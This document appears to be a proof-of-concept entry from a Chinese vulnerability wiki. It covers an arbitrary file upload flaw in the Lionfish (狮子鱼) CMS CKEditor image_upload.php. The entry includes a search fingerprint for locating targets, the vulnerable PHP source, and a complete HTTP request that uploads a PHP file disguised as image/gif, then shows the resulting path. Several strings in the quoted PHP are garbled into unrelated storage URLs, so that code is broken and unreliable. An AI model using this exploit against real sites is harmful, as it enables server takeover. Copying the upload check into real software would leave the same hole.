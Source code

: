 # 狮子鱼CMS image_upload.php 任意文件上传

## 漏洞描述

狮子鱼CMS使用CK编辑器，存在图片上传的绕过，造成 image_upload.php 任意文件上传

## 漏洞影响

<a-checkbox checked>狮子鱼CMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"/seller.php?s=/Public/login"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/szy-1-20220314000211646.png)



漏洞文件为 CK编辑器的 image_upload.php



```php
<?php
 define ( 'IN_BAMBOO', true );
 // 取得根目录
define ( 'ROOT_PATH', '../../../../' );  // back to your root path

$arrType = array (
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jpg',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/png',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/bmp',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/pjpeg',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jpeg' 
);
$max_size = 500 * 1024; // 最大文件限制（单位：byte）
$upfile = ROOT_PATH.'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads'; // 图片目录路径
if (!isset($_FILES ['files'])){
	echo '{"result":"400","msg":"未能找到图片，请确认图片是否过大"}';
	exit ();
}
$file = $_FILES ['files'];

if ($_SERVER ['REQUEST_METHOD'] == 'POST') { // 判断提交方式是否为POST
	if (! is_uploaded_file ( $file ['tmp_name'] )) { // 判断上传文件是否存在
		echo '{"result":"400","msg":"图片不存在"}';
		exit ();
	}
	
	if ($file ['size'] > $max_size) { // 判断文件大小是否大于500000字节
		echo '{"result":"400","msg":"上传图片太大，最大支持：'.($max_size/1024).'KB"}';
		exit ();
	}
	if (! in_array ( $file ['type'], $arrType )) { // 判断图片文件的格式
		echo '{"result":"400","msg":"上传图片格式不对"}';
		exit ();
	}
	if (! file_exists ( $upfile )) { // 判断存放文件目录是否存在
		mkdir ( $upfile, 0777, true );
	}
	$imageSize = getimagesize ( $file ['tmp_name'] );
	$img = $imageSize [0] . '*' . $imageSize [1];
	$fname = $file ['name'];
	$ftype = explode ( '.', $fname );
	$time = explode ( " ", microtime () );
	$time = $time [1] . ($time [0] * 1000);
	$time2 = explode ( ".", $time );  
	$time = $time2 [0];
	$returnName=$time."." .end($ftype);
	$picName = $upfile . "/" . $returnName ;
	
	if (! move_uploaded_file ( $file ['tmp_name'], $picName )) {
		echo '{"result":"400","msg":"从:'.$file ['tmp_name'].'移动图片到:'.$picName.'出错"}';
		exit ();
	} else {
		echo '{"result":"200","imgurl":"http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads/' . $returnName . '"}';
	}
}

?>
```



其中使用 image/gif 即可绕过上传PHP文件



```plain
POST /Common/ckeditor/plugins/multiimg/dialogs/image_upload.php HTTP/2
Host: 
Content-Type: multipart/form-data;boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Length: 208

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="files"; filename="test.php"
Content-Type: image/gif

<?php phpinfo();?>
------WebKitFormBoundary8UaANmWAgM4BqBSs—
```



![img](/assets/PeiQi-Wiki/img/szy-5.png)



访问返回的文件路径



```plain
/Common/http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads/xxxxx.php
```



![img](/assets/PeiQi-Wiki/img/szy-4.png)